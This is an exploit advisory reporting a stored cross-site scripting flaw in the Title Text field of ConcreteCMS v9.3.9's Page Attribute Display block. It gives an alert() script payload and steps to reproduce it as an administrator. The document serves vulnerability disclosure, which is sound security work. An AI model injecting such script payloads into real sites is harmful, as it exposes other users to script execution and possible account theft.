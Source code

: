 # Exploit Title: Concretecms v9.3.9 - Cross-Site Scripting (XSS)
## Date: 3/13/2025
## Vendor Homepage: https://github.com/concretecms/concretecms
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Concretecms
## Version: v9.3.9
## Exploit Description:
## ConcreteCMS v9.3.9 suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the Title Text field when adding a Page Attribute Display block. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<script>alert('Title Text');</script>

```

1. Use administrator login
2. Click "add content to the page" in the top navigation.
3. Select the Page Attribute Display block , drag and drop it to the page.
4. Add <script>alert('Title Text');</script> to the Title Text field and then click ADD,the xss vulnerability appears.

